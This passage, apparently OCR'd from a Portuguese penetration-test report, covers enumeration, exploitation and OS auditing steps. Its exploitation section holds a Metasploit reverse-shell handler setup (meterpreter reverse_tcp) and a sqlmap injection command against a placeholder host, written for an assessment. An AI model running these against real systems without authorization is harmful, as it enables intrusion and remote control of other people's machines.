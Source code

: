 
dirb http://<IP_da_VPS>

searchsploit <service>

Resultados:

searchsploit:
FTP: secure 



Vulnerabilidades conhecidas e diretórios/arquivos ocultos identificados.
## 3.4. Exploração
Objetivo: Explorar vulnerabilidades para obter acesso ou comprometer o sistema.

Ferramentas Utilizadas:

Metasploit
sqlmap
Procedimentos:

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST <IP_local>

set LPORT 4444

exploit

sqlmap -u "http://<IP_da_VPS>/pagina?parametro=valor"

Resultados:

Explorações bem-sucedidas, incluindo detalhes de acesso obtido.
## 3.5. Testes de Segurança do Sistema Operacional
Objetivo: Avaliar a segurança do sistema operacional.

Ferramentas Utilizadas:

linPEAS
Lynis
Procedimentos:

./linpeas.sh

lynis audit system

Resultados:

Vulnerabilidades e configurações incorretas identificadas.
## 3.6. Testes de Segurança de Banco de Dados
Objetivo: Avaliar a segurança dos bancos de dados.

Ferramentas Utilizadas:
